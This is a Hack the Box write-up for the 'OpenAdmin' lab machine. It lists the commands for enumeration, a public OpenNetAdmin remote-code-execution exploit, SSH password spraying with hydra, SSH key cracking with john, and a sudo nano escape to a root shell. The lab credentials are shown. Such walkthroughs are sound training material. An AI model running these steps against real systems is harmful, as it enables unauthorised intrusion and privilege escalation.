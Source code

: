 +++
title = "Hack the Box: OpenAdmin"
date = 2023-01-15
description = "Hack the Box: OpenAdmin"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: OpenAdmin

<!--more-->

# OpenAdmin

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC openadmin.htb -nvv -e tun0
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2tPAFPpvipRrLE=
|   256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcV0sVI0yWfjKsl7++B9FGfOVeWAIWZ4YGEMROPxxk4
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

```
# gobuster dir -u http://openadmin.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,js,txt,htm,html,jsp
# gobuster dir -u http://openadmin.htb/music -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,js,txt,htm,html,jsp

/ona/
```

### Searchploit

Search for exploit on ONA:

```
# searchsploit opennetadmin
# OpenNetAdmin 18.1.1 - Remote Code Execution
```

## Foothold

Use the exploit above and get a shell

```
# dos2unix /usr/share/exploitdb/exploits/php/webapps/47691.sh
# ./47691.sh http://10.10.10.171/ona/
$
```

Find a password in `./local/config/database_settings.inc.php`. Try to use it on every users `cat /etc/passwd | grep home`

```
# hydra -L ~/Downloads/usershtb.txt -p n1nj4W4rri0R! openadmin.htb -t 4 ssh
```

Match with jimmy account, connect to his account.

```
# scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh jimmy@openadmin.htb:/home/jimmy
```

We get informations about the open port and processes running:

```
# netstat -tupln
# ps -aux
```

We can do a port redirect to access the admin dashboard:

```
# ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171
```

We find a SHA512 hash:

```
# cat /var/www/internal/main.php
# cat /var/www/internal/index.php
# 00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758e
ebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
value : Revealed
```

It’s joanna password, we can get her ssh password protected ssh private key with:

```
# curl http://127.0.0.1:52846/main.php --output -
```

Crack it with john after saving it into a file:

```
# ssh2john .ssh/id_rsa_joanna > crackme
# sudo john crackme --wordlist=/usr/share/wordlists/rockyou.txt
value : bloodninjas
```

we can now connect to ssh using joanna account and get the user hash in **/home/joanna/user.txt**

## Privilege Escalation

Run `linpeas.sh` again with joanna. `sudo -l` is also a good idea. It reveals that we can launch the following command with sudo right : `sudo /bin/nano /opt/priv`. We can abuse that using [GTFOBins#nano](https://gtfobins.github.io/gtfobins/nano/#sudo "https://gtfobins.github.io/gtfobins/nano/#sudo") and do the following :

```
# sudo /bin/nano /opt/priv
CTRL+r
CTRL+x
cat /root/root.txt
```

or

```
# sudo /bin/nano /opt/priv
CTRL+r
CTRL+x
reset; sh 1>&0 2>&0
```